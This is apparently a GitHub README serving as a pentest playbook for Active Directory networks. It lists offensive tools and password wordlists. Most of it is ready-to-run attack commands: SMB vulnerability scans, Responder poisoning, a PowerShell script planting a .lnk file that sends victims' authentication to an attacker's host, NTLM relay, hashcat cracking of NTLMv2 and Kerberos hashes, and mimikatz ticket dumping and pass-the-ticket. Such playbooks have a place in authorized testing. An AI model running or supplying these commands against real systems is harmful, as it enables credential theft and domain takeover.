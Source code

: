 # Gunnajs-Playbook
How to pentest like a Gunnaj

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### BloodHound
https://github.com/fox-it/BloodHound.py
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
### breach-parse
https://github.com/hmaverickadams/breach-parse
### PRET
https://github.com/RUB-NDS/PRET

## Wordlists bby
### Create your own wordlist
https://zzzteph.github.io/weakpass/
### Top 10 million
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt (8.1 MB)

### Crackstation
https://crackstation.net/files/crackstation.txt.gz (14.6 GB)


### Large p-list
https://download.g0tmi1k.com/wordlists/large/36.4GB-18_in_1.lst.7z (48.4 GB)

### Rockyou2021

https://github.com/ohmybahgosh/RockYou2021.txt (91.6 GB)

# VEV

## Nmap
#### Ping scan
```bash
sudo nmap -sP -p <output.txt> <IP/mask>
```
#### Full scan
```bash
sudo nmap -PN -sC -sV -p- -oA <output.txt> <IP/mask>
```
#### smb vuln scan
```bash
sudo nmap -PN --script smb-vuln* -p139,445 -oA <output.txt> <IP/mask>
```
## Find DC IP
#### Show domain name and DNS
```bash
sudo mncli dev show eth0
```
#### Show DC IP
```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.<AD_domain>
```

## linWinPwn 
### Unauthenticated
```bash
 sudo ./linWinPwn.sh -t <Domain_Controller_IP_or_Target_Domain> -M user <output_dir>
```
### With AD-user
```bash
sudo ./linWinPwn.sh -t <Domain_Controller_IP> -u <AD_user> -p <AD_password> -o <output_dir>
```

## Responder
### Kickstart responder
```bash
responder -I eth0 -v
```

### Responder linkifle

#### In Powershell, use each command to create a linkfile for Responder
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Users\<User>\Desktop\<name>.lnk")
$lnk.TargetPath = "\\<ResponderIP>\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the dir this file lives in will perform an authentication request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Crackmapexec NTLM-relay
#### Evaluate no smb-signing
```bash
crackmapexec smb <IPs> --gen-relay-list <outputIPs.txt>
```
#### NTLMRelayx
```bash
sudo python3 ntlmrelayx.py -smb2support -tf <outputIPs.txt>
```
#### Disbale SMB and HTTP in Responder.conf
```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = Off
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
```

```
## SMB VEV
### Mount share
```bash
sudo mount.cifs <//ip/folder> <./folder> -o user=<username>,password=<password>,dom=<domain.com>
```
### Unmount share
```bash
sudo umount <./folder>
```
### Search for keywords in files
```bash
grep -i <keyword> *
```
## PRET
### Nmap printers
```bash
nmap -p 9100 <IP/mask>
```
```bash
pret.py target {ps,pjl,pcl}
```
## Zero Logon
* in the making 

### Crack NTLMv2 hashes
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <passlist.txt> -o cracked.txt
```
### Crack kerberos hashes
```bash
hashcat64.exe -m 13100 krb5tgs-hashes.txt <passlist.txt> -o cracked.txt
```
## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
